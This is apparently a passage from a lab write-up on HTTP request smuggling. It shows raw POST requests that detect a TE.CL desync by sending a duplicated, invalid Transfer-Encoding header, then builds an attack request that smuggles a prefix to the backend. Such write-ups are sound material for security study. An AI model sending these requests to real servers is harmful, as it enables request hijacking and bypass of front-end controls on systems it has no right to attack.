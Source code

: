 So we try to determine what the backend is using by sending the req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
X
```
We get 200 OK, which means the backend is using TE as well

So we want to obfuscate TE header so that one of the servers falls back to processing CL header instead
There are different techniques for TE obfuscation, right now we're using double TE header: when the second TE header has an invalid value

So we try the following req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: foobar
\r\n
0\r\n
\r\n
X
```
And we see that the response is now timing out
It happens because the frontend actually accepted the first TE header `Transfer-Encoding: chunked` and then the backend server tried to process `Transfer-Encoding: foobar` but failed and started using CL header instead

So we now prepare 2 requests, normal and attack requests:
Normal:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
\r\n
foo=bar
```

Attack:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: foobar
\r\n
1\r\n
G\r\n
0\r\n
\r\n
```
